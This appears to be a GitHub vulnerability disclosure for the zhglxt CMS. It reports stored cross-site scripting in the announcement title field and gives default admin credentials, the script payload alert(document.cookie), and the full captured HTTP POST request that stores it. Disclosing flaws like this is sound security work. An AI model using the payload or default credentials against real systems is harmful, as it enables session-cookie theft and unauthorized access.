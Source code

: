 BUG_Author: biantaibao    
cms url: https://github.com/liuwy-dlsdys/zhglxt  
Vulnerability url:POST /zhglxt/oa/notify/edit HTTP/1.1  
POST form-data parameter name="notifyTitle" exists stored cross-site scripting  
Steps to reproduce  
1.Go to the admin Login  
http://localhost:9898/zhglxt/login    
Default Admin Access Information Username: system / Password: system   
2.Enter the announcement management menu and click the add button.   
![image](https://github.com/biantaibao/zhglxt_xss/assets/131763503/254e7ac4-fe88-441e-add9-dce613154bee)
3.Put Payload into the name="notifyTitle" parameter  
Payload:<script>alert(document.cookie)</script>  
![image](https://github.com/biantaibao/zhglxt_xss/assets/131763503/c5e120ce-0d32-469a-94f6-beba662fec64)
4.Click on Save  
Transmission packet

POST /zhglxt/oa/notify/edit HTTP/1.1  
Host: localhost:9898  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0    
Accept: application/json, text/javascript, */*; q=0.01  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded; charset=UTF-8  
X-Requested-With: XMLHttpRequest  
Content-Length: 184  
Origin: http://localhost:9898  
Connection: close  
Referer: http://localhost:9898/zhglxt/oa/notify/edit/4d049d94293e46c8afb8e4ffe555190f  
Cookie: JSESSIONID=090bf2d0-9cba-462f-844c-fcb72b90ba5e; NG_TRANSLATE_LANG_KEY=%22zh-CN%22; Hm_lvt_2f24154b3f87697d36a4e2a638b68aaa=1704782281; Hm_lvt_f8cddee34ca21f05373a9388cfdd798b=1704964823; JSESSIONID=36080a69-5232-4088-85be-6074f45e49e2; Hm_lpvt_2f24154b3f87697d36a4e2a638b68aaa=1704782281; Hm_lpvt_f8cddee34ca21f05373a9388cfdd798b=1704966995


id=4d049d94293e46c8afb8e4ffe555190f&deptUserIds=&notifyTitle=%3Cscript%3Ealert(document.cookie)%3C%2Fscript%3E&notifyType=1&notifyContent=%3Cp%3E111%3Cbr%3E%3C%2Fp%3E&status=0&userIds=  

5.Payload will trigger when a user the search button.
![image](https://github.com/biantaibao/zhglxt_xss/assets/131763503/f93ccf1c-0e6a-47ee-8672-ac7797868e2a)
